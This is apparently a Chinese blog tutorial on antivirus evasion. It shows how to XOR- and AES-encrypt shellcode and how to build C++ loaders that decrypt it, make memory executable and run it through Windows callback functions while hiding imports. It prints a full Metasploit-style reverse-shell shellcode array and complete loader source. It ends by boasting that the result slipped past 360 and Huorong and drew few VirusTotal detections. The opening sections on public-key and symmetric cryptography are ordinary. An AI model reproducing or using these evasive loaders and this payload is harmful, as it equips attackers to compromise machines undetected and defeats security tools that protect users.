










# 前言

## 什么是私钥和公钥

私钥和公钥是密码学中用于实现加密、解密和数字签名等功能的关键组件。

私钥是一种加密算法中的秘密密钥，只有密钥的拥有者可以访问和使用它。私钥通常用于数字签名和数据加密等场景中，它可以用于对数据进行加密，同时也可以用于解密已经被加密的数据。

公钥是与私钥对应的一种公开密钥，它可以被任何人访问和使用。公钥通常用于数据加密、身份认证和数字签名等场景中。公钥可以被用来加密数据，同时也可以用于验证数字签名的有效性。

在非对称加密算法中，公钥和私钥是一对密钥，它们共同参与加密和解密过程。公钥用于加密数据，而私钥用于解密数据。因此，使用非对称加密算法时，数据的接收方会将其私钥保存为秘密，而将其公钥发送给发送方。这样，发送方就可以使用接收方的公钥来加密数据，而接收方可以使用其私钥来解密数据。

需要注意的是，私钥和公钥是成对出现的，它们必须同时使用才能确保数据的安全性和完整性。因此，在使用私钥和公钥进行数据加密、解密和数字签名等操作时，必须确保私钥的安全性和保密性


## 了解对称加密和非对称加密

- 对称加密：在对称加密中，加密和解密使用的是同一个密钥，通常称为共享密钥。这意味着在加密数据时，发送方和接收方都需要使用相同的密钥。对称加密算法的速度较快，适用于对大量数据进行加密。然而，对称加密的一个主要缺点是密钥管理。由于发送方和接收方需要使用相同的密钥，因此密钥的安全传输和存储成为一个挑战。一旦密钥被泄露，加密数据的安全性就会受到威胁。常见的对称加密算法有：AES（高级加密标准）、DES（数据加密标准）和3DES（三重数据加密标准）。
- 非对称加密：非对称加密使用一对密钥，分别称为公钥和私钥。公钥是公开的，可以被任何人获取，而私钥是保密的，只有密钥所有者才能访问。在非对称加密中，数据可以用公钥加密，然后只能用相应的私钥解密；反之亦然，用私钥加密的数据只能用公钥解密。这样，密钥的管理问题得到了解决，因为只需要保护私钥的安全。非对称加密的一个缺点是加密和解密过程相对较慢，因此通常不适用于加密大量数据。常见的非对称加密算法有：RSA（Rivest-Shamir-Adleman）、DSA（数字签名算法）和ECC（椭圆曲线密码学）。

在实际应用中，对称加密和非对称加密通常会结合使用，以充分利用两者的优点。例如，通过非对称加密安全地传输对称加密的密钥，然后使用对称加密对数据进行加密。这样既解决了密钥管理问题，又能快速地加密大量数


# XOR加密

## 什么是xor加密

XOR加密又称为异或加密，异或加密属于对称加密。在异或加密中，使用一个密钥（通常称为密钥流）与明文数据进行异或操作，生成加密后的密文。解密过程与加密过程相同，将密文与相同的密钥流进行异或操作，即可恢复原始明文数据


## 代码实现

使用`Shellcode_XorEncoder.py`对shellcode进行异或加密，随后输出加密后的shellcode

```python
# 定义异或加密函数，接收原始shellcode和密钥作为输入
def xor_encrypt(shellcode, key):
    encrypted_shellcode = bytearray()
    key_len = len(key)

    # 遍历shellcode中的每个字节
    for i in range(len(shellcode)):
        # 将当前字节与密钥中相应字节进行异或操作，然后添加到加密后的shellcode中
        # 这段代码中的i % key_len操作用于确保在对shellcode进行异或加密时，密钥循环使用
        encrypted_shellcode.append(shellcode[i] ^ key[i % key_len])
    return encrypted_shellcode

def main():
    # 填写你的shellcode
    # buf = b""

    #通过bin文件获取shellcode
    with open("payload.bin","rb") as file:
        buf = file.read()

    shellcode = bytearray(buf)

    # 定义密钥
    key = bytearray(b'12henry1222345??6aa+-==@asd')

    # 使用xor_encrypt函数加密shellcode
    encrypted_shellcode = xor_encrypt(shellcode, key)

    # 输出加密后的shellcode
    print("Encrypted shellcode:")
    encrypted_shellcode_string = ""
    for byte in encrypted_shellcode:
        encrypted_shellcode_string += ("\\x%02x"%byte)
    print(encrypted_shellcode_string)

if __name__ == '__main__':
    main()


```


使用`xor加密.cpp`解密加密后的shellcode，随后将其加载进内存

```cpp
#include <Windows.h>
#include<stdio.h>

int main() {
    // 存放xor加密后的shellcode
    char encryptedShellcode[] = "..."; 

    // 定义解密所用的密钥
    char key[] = "12henry1222345??6aa+-==@asd";

    // 定义一个与加密shellcode大小相同的数组用于存储解密后的shellcode
    unsigned char shellcode[sizeof encryptedShellcode];

    // 获取密钥的长度
    int keylength = strlen(key);

    // 遍历加密的shellcode，并使用异或操作进行解密，将结果存储在shellcode数组中
    for (int i = 0; i < sizeof encryptedShellcode; i++) {
        shellcode[i] = encryptedShellcode[i] ^ key[i % keylength];
        printf("\\x%x", shellcode[i]);
    }

    // 获取解密后的shellcode的地址
    char* addrShellcode = (char*)shellcode;

    // 声明一个DWORD变量用于存储旧的内存保护属性
    DWORD dwOldPro = 0;

    // 更改解密后的shellcode所在内存区域的保护属性，允许执行、读、写
    BOOL ifExec = VirtualProtect(addrShellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldPro);

    // 使用EnumUILanguages函数执行解密后的shellcode
    EnumUILanguages((UILANGUAGE_ENUMPROC)addrShellcode, 0, 0);
}
```


## 运行测试

若要加密stageless的shellcode, 有两种方法, 首先第一种是通过010editor打开bin文件获取python形式的buf, 随后粘贴到`Shellcode_XorEncoder.py`

	


还有一种是直接打开bin文件获取shellcode, 我更加推荐使用这种

	


运行`Shellcode_XorEncoder.py`后将控制台输出的加密后的shellcode复制到`xor加密.cpp`





​		

# AES加密

## 什么是aes加密

AES加密，即高级加密标准（Advanced Encryption Standard）加密，是一种对称密钥加密算法，广泛应用于现代密码学中

AES加密的特点如下：

- 对称密钥：加密和解密过程使用相同的密钥。因此，密钥的安全性至关重要。
- 密钥长度：AES支持128位、192位和256位三种密钥长度，安全性随密钥长度的增加而增加。
- 分组长度：AES加密算法对数据进行分组，每个分组固定为128位（16字节）。
- 加密过程：包括多轮（轮数与密钥长度有关，如AES-128需要10轮，AES-192需要12轮，AES-256需要14轮）的加密操作。每轮操作包括四个步骤：SubBytes（字节替换）、ShiftRows（行移位）、MixColumns（列混淆，最后一轮除外）和AddRoundKey（轮密钥加）


## 代码实现

这里直接使用乌鸦师傅的aes加密代码：https://cloud.tencent.com/developer/article/1939317，我将aes加密的函数封装在一个静态链接库项目里，再添加了密钥生成函数和shellcode数组转字符串函数，一共有四个函数

```cpp
//AES加密
string EncryptionAES(const string& strSrc, const char* g_key, const char* g_iv);

//AES解密
string DecryptionAES(const string& strSrc, const char* g_key, const char* g_iv);

//生成随机密钥
string random_string(size_t length);

//将char类型的shellcode转换成string类型的
string toHexString(unsigned char* data, size_t len);
```


`Shellcode_AesEncrypt.cpp`对shellcode进行Aes加密

```cpp
#include <iostream>
#include "Shellcode加密库.h"

using namespace std;

int main() {
	
	//填写msf或cs生成的shellcode
	unsigned char buf[] = 
	"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x51"
	"\x48\x8b\x52\x20\x56\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
	"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
	"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
	"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
	"\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6"
	"\x4d\x31\xc9\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
	"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
	"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
	"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
	"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
	"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
	"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
	"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
	"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
	"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
	"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
	"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
	"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
	"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
	"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
	"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
	"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
	"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
	"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
	"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
	"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
	"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
	"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
	"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
	"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
	"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
	"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
	"\xf0\xb5\xa2\x56\xff\xd5";


	//生成随机16位的key值和iv值
	srand(time(0)); // initialize random seed
	string g_key = random_string(16);
	string g_iv = random_string(16);
	cout << "key值: " << g_key << endl;
	cout << "iv值: " << g_iv <<endl;

	//将shellcode字节数组转换成十六进制字符串
	size_t bufLen = sizeof(buf) / sizeof(unsigned char) - 1;
	string OriginalShellcode = toHexString(buf, bufLen);
	cout << "未加密的shellcode: " << OriginalShellcode << endl;
	//对shellcode字符串进行加密
	string EncryptShellcode = EncryptionAES(OriginalShellcode,g_key.c_str(),g_iv.c_str());
	cout << "加密后的shellcode: " << EncryptShellcode << endl;
	//对加密后的shellcode字符串进行解密
	string DecryptShellcode = DecryptionAES(EncryptShellcode, g_key.c_str(), g_iv.c_str());
	cout << "解密后的shellcode: " << DecryptShellcode << endl;
		
	return 0;
}
```


`Shellcode_AesDecrypt.cpp`用来解密shellcode并加载，此处还调用了lazy_importer库的函数:https://github.com/JustasMasiulis/lazy_importer，此库实现动态调用系统api函数, 只需在函数前面添加(`LI_FN`), 若此函数的某个参数需填`NULL`, 那么需要改成`nullptr`

```cpp
#define _CRT_SECURE_NO_DEPRECATE
#include <iostream>
#include "lazy_importer.hpp"
#define BUF_SIZE 4096
#include <windows.h>
#include "Shellcode加密库.h"

using namespace std;
char g_key[17] = "M7N@ExCVB@dFd]3W";   //填写key密钥
char g_iv[17] = "}%?#U)6;9#uOg6gL";  //定义iv向量


void main(int argc, char* argv[])
{
	// 加密后的shellcode
	string buf = "Zq3ejgFVl/qtP/dqcQidBN6BKWTiL/KZZpfW+Iy8ZMnaA4Au2oEHMltr8TihG9yvvQ1MDt0PFqboWsF5ka9y72L9xJ5a4HRBFspK3vMwvtKMH8Xtko6ErmfUUB8pv4n4DybjQseeuYtPqEDGvX8zlwONk9nyu5r8aozfNCxLvnbFyzX5OLInbra87Az3FGhilZnCwMufIPZLgolhRkgyhnS96CsMst/pNz4AqcCNmfe7Gw1rcuVgHqETNxwIsNzWDmUguUJ173NHAZJpKmF1k39IYnF4JMvVk3QH81jzX68ClhGvADXnPlmz20PHzzjKOzkovpW4cPT3Q/1B2HOwWwhKPZdLKakJeuSa1YLwv6Nu3UdP8II6dGDVsgb4y/U7O1aiHbJFXSM5XXx7eKqTe8MV8gLfwNNR6M4qaWEm7XmdsE0WryhL5F1SFe/6uxPrcIFnGE3I0jVntLjYfVWotkkrEgL7M6rXlOgKHF3Pd6AIIPm23zULA9NyJsHuKmqOUgyzf7LiPxPcIqhNo5DA1opqCqBS3XTeusUjr6x3AyBT9MquUeJKuB7BBtWJWyuQzTzzSXaDRmErc6lSTM+DKTo101TZYKz4Jl2I8xDMey7IJT+Z1iYt/thgi1FeRLnrGAFKhNn3xAqjYORcKXLPGkSWq1MoZZxOJi6QF1uqMlB3tDBD6w/pAhuqHR+ZxnaHjfbqybG8rNLXc6hshmazoiFakC9QwHM9RgyVde9GGpkNr+wzjp1Tc1SbXSHtFHXumU1IP6NvLqU0/tWrTui9t8nrsqNFgGlQUXyAzmnk04vXJeD7kxGbSFSXwffPGUlOtDS1q/+P+fwj+ZvjpmiPLzoo+hgZ0UOtyO1ThltWr4rWitqMPneleC11qlVcyOp0odOTxuZiUeJyTOY9wHWwXg3snVWat23VSE7eQ4QWcF/GtfRVBsiGGENo1hH1nuxNTlEx/2os30f3IOj/yUfIXpuwHaWsNwlyw6119Z3PgCOdR+1qDCvJenZEsCkyjUJ830xC1V5VxCw1m0btTP+LaefsNEocc5V7fyNyaw0o72yl/g+bacycAbG/hIJlWbaXneDFysBLPtLFJjXm0gAsE3iyffdB9l6c8ffohInaNlWC8x7IDb4X6vrFC8cncDFb3NKIInVFR6bmqXfxXAamxzKXdpVjngPZg6YCWpTUtobZhThnhpO1KZxvHoFCcidxLq+mifWHpcldcS/ez2vWGdriSbd6i9FGGaxQQvHze1HmaLP/sj34JDMfIVfOI2/4sejnjluKfhcu5I0P76idHJKMDHr+rJBtpSxX3jc+UNlfeFmhjuN2Yy/TO1kLRfUdfAeZP2Vz4WhITdRf8bvqJA==";
	// 解密shellcode
	string strbuf = DecryptionAES(buf, g_key, (char*)g_iv);

	//将解密的shellcode放到shellcode数组中
	char* p = (char*)strbuf.c_str();
	unsigned char* shellcode = (unsigned char*)calloc(strbuf.length() / 2, sizeof(unsigned char));
	for (size_t i = 0; i < strbuf.length() / 2; i++) {
		sscanf(p, "%02x", &shellcode[i]);
		p += 2;
	}

	//输出shellcode数组里的内容
	int ShellcodeSize = strbuf.length() / 2;
	printf("Decrypted buffer:\n");
	for (int i = 0; i < ShellcodeSize; i++) {
		printf("\\x%02x", shellcode[i]);
	}

	//加载shellcode
	char* orig_buffer;
	orig_buffer = (char*)LI_FN(VirtualAlloc)(nullptr, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	RtlMoveMemory(orig_buffer, shellcode, ShellcodeSize);
	
	//使用EnumUILanguages函数执行解密后的shellcode
	//EnumUILanguages((UILANGUAGE_ENUMPROC)orig_buffer, 0, 0);

	//LI_FN(EnumUILanguages)((UILANGUAGE_ENUMPROC)orig_buffer, 0, 0);

	//使用EnumFontsW回调函数加载shellcode
	EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)orig_buffer, NULL);

}
```


## 运行测试

给aes加密项目添加引用，选择Shellcode加密库

	


修改项目属性，在附加包含目录处添加上Shellcode加密库项目的路径

	


使用`Shellcode_AesEncryption.cpp`进行加密, 随后控制台输出key值、iv值、以及加密后的shellcode


打开`Shellcode_AesDecrypt.cpp`,填写上述生成的值, 随后生成可执行文件




将生成的可执行文件放到火绒和360里测试,没有发现报毒

	

	


上传至VirusTotal检查，只有四个报毒，免杀效果还是可以的

	


# Base64加密


# Git项目地址

https://github.com/xf555er/ShellcodeEncryption
